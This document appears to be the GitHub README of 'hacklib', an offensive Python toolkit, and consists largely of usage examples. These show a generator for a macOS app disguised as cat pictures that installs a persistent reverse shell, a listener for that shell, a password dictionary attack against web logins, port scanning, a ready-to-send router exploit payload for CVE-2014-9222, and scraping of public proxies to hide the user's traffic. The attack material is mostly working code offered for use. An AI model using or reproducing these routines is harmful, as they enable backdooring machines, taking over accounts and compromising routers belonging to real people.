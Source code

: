 # hacklib
![MIT License](https://img.shields.io/github/license/mashape/apistatus.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)
##### Toolkit for hacking enthusiasts using Python.
hacklib is a Python module for hacking enthusiasts interested in network security. It is currently in active development.

-
#### Installation
To get hacklib, simply run in command line:
```console
pip install hacklib
```
hacklib also has a user interface. To use it, you can do one of the following:

Download hacklib.py and run in console:
```console
python hacklib.py
----------------------------------------------
Hey. What can I do you for?


Enter the number corresponding to your choice.

1) Connect to a proxy
2) Target an IP or URL
3) Lan Scan
4) Exit

```
Or if you got it using pip:

```python
import hacklib
hacklib.userInterface()
```
-
#### Dependencies
Not all classes have external dependencies, but just in case you can do the following:
```python
hacklib.installDependencies()
```
-
#### Usage Examples
Reverse shell backdooring (Currently only for Macs):
```python
import hacklib

bd = hacklib.Backdoor()
# Generates an app that drops a persistent reverse shell into the system.
bd.create('127.0.0.1', 9090, 'OSX', 'Funny_Cat_Pictures')
# Takes the IP and port of the command server, the OS of the target, and the name of the .app
```
-

Shell listener (Use in conjunction with the backdoor):
```python
import hacklib
# Create instance of Server with the listening port
>>> s = hacklib.Server(9090)
>>> s.listen()
New connection ('127.0.0.1', 51101)
bash: no job control in this shell
bash-3.2$ whoami
leon
bash-3.2$ 
# Sweet!
```
-
Universal login client for almost all HTTP/HTTPS form-based logins and HTTP Basic Authentication logins:

```python
import hacklib

ac = hacklib.AuthClient()
# Logging into a gmail account
htmldata = ac.login('https://gmail.com', 'email', 'password')

# Check for a string in the resulting page
if 'Inbox' in htmldata: print 'Login Success.'
else: print 'Login Failed.'

# For logins using HTTP Basic Auth:
try: 
    htmldata = ac.login('http://somewebsite.com', 'admin', 'password')
except: pass #login failed
```
Simple dictionary attack using AuthClient:
```python
import hacklib

ac = hacklib.AuthClient()
# Get the top 100 most common passwords
passwords = hacklib.topPasswords(100)

for p in passwords:
    htmldata = ac.login('http://yourwebsite.com/login', 'admin', p)
    if htmldata and 'welcome' in htmldata.lower():
        print 'Password is', p
        break
```
-
Port Scanning:
```python
from hacklib import *

ps = PortScanner()
ps.scan(getIP('yourwebsite.com'))
# By default scans the first 1024 ports. Use ps.scan(IP, port_range=(n1, n2), timeout=i) to change default

# After a scan, open ports are saved within ps for reference
if ps.portOpen(80):
    # Establish a TCP stream and sends a message
    send(getIP('yourwebsite.com'), 80, message='GET HTTP/1.1 \r\n')
```

Misfortune Cookie Exploit (CVE-2014-9222) using PortScanner:
```python
>>> import hacklib

# Discovery
>>> ps = hacklib.PortScanner()
>>> ps.scan('192.168.1.1', (80, 81))
Port 80:
HTTP/1.1 404 Not Found
Content-Type: text/html
Transfer-Encoding: chunked
Server: RomPager/4.07 UPnP/1.0
EXT:
# The banner for port 80 shows us that the server uses RomPager 4.07. This version is exploitable.

# Exploitation
>>> payload = '''GET /HTTP/1.1
Host: 192.168.1.1
User-Agent: googlebot
Accept: text/html, application/xhtml+xml, application/xml; q=09, */*; q=0.8
Accept-Language: en-US, en; q=0.5
Accept-Encoding: gzip, deflate
Cookie: C107351277=BBBBBBBBBBBBBBBBBBBB\x00''' + '\r\n\r\n'
>>> hacklib.send('192.168.1.1', 80, payload)
# The cookie replaced the firmware's memory allocation for web authentication with a null bye.
# The router's admin page is now fully accessible from any web browser.
```
-
FTP authentication:
```python
import hacklib
ftp = hacklib.FTPAuth('127.0.0.1', 21)
try:
    ftp.login('username', 'password')
except:
    print 'Login failed.'
```
-
Socks4/5 proxy scraping and tunneling
```python
>>> import hacklib
>>> import urllib2
>>> proxylist = hacklib.getProxies() # scrape recently added socks proxies from the internet
>>> proxy = hacklib.Proxy()
>>> proxy.connect(proxylist) # automatically find and connect to a working proxy in proxylist
>>> proxy.IP
u'41.203.214.58'
>>> proxy.port
65000
>>> proxy.country
u'KE'
# All Python network activity across all modules are routed through the proxy:
>>> urllib2.urlopen('http://icanhazip.com/').read() 
'41.203.214.58\n'
# Notes: Only network activity via Python are masked by the proxy.
# Network activity on other programs such as your webbrowser remain unmasked.
# To filter proxies by country and type:
# proxylist = hacklib.getProxies(country_filter = ('RU', 'CA', 'SE'), proxy_type='Socks5')
```
